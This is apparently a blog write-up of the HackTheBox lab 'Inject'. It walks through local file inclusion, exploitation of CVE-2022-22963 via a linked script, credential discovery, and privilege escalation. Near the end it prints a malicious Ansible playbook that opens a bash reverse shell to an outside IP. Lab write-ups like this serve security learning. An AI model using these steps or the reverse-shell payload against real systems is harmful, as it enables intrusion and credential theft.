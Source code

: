 ```yaml
---
title: Inject
author: siresire
date: 2024-03-14 18:10:00 +0800
categories: [Hackthebox,Linux Fundamentals,Easy]
tags: [LFI,CVE,Ansible]
render_with_liquid: false
---
```


# Enumeration

## nmap
```bash
┌──(root㉿kali)-[/home/sire/Documents/CTFs/HackTheBox/Inject]
└─# cat nmap.scans | grep open
22/tcp   open  ssh         syn-ack ttl 63 OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
8080/tcp open  nagios-nsca syn-ack ttl 63 Nagios NSCA
```
nmap show 2 ports open `ssh` and port `8080` which seams to to be https

# HTTP
![Alt text](/assets/img/htb/Inject/i1.png)

After uploading an image ,you get a link to view the image uploaded

![Alt text](/assets/img/htb/Inject/l2.png)

# Foothold
Upon successfully uploading an image file, we are provided with the option to view the uploaded image 

I tried to upload a php script but all was in vain but viewing the image link, it seems like it was a `lfi`

![Alt text](/assets/img/htb/Inject/l3.png)

It seems like the application reads the value of the img parameter in the URL and includes the corresponding file on the server. However, if the application is not properly sanitizing the img parameter,
we could craft a malicious request that includes a file outside of the intended directory- this is known as a Local File Inclusion.

We can successfully read the contents of the `/etc/passwd` file in the HTTP response, thus verifying the presence of the LFI vulnerability in the web app with burp suit 

![Alt text](/assets/img/htb/Inject/l4.png)




After poking around, I finally identified the application running in `/var/www/`.

![Alt text](/assets/img/htb/Inject/l5.png)


"In the application, I discovered a file named poc.xml and determined that the web app is utilizing version 3.2.2 of the Spring Cloud Function Web module."

![Alt text](/assets/img/htb/Inject/l6.png)
```xml
<dependency>
			<groupId>org.springframework.cloud</groupId>
			<artifactId>spring-cloud-function-web</artifactId>
			<version>3.2.2</version>
		</dependency>
```

After googling it was `CVE-2022-22963`, found a sript in github and running the script I had a shell and with this [script](https://github.com/J0ey17/CVE-2022-22963_Reverse-Shell-Exploit) I was able to get a shell


![Alt text](/assets/img/htb/Inject/l7.png)

# Lateral Movement

In the home folder, there was 2 files , one for frank and the other for phil, since we are frank , I could access and read files in frank folder

But there was this folder that was hidden, `.m2`

![Alt text](/assets/img/htb/Inject/l8.png)

in the folder there was file containing phil credentials

![Alt text](/assets/img/htb/Inject/l9.png)

# Privilege Escalation
 When I ran linpease script, there was a lot of ansible_collections which indeicated that ansible_script was running onthe machine.Ansible is a powerful and flexible tool for automating IT tasks and managing infrastructure at scale,
making it easier to maintain consistency across multiple servers and environments

![Alt text](/assets/img/htb/Inject/l10.png)

What is an Ansible playbook?An Ansible playbook is a file containing one or more tasks written in YAML format. Playbooks are the primary way to describe the automated configuration, deployment, and orchestration tasks using
Ansible

So I downloaded [pspy](https://github.com/DominicBreuker/pspy) and ran the process on the machine to see it in action and we do see these scrips running after some time 

![Alt text](/assets/img/htb/Inject/l11.png)

here the ansible script are running any file contaning .yml in /opt/automation/tasks/ 
`/bin/sh -c /usr/local/bin/ansible-parallel /opt/automation/tasks/*.yml `

So I crafted a malicious script and placed it in /opt/automation/tasks wiht extention of .yml

```ansible
 - hosts: localhost
  tasks:
    - name: Checking webapp service
      shell: bash -c 'bash -i >& /dev/tcp/10.10.14.17/1234 0>&1'
```

## 🐞 CVE-2022-22963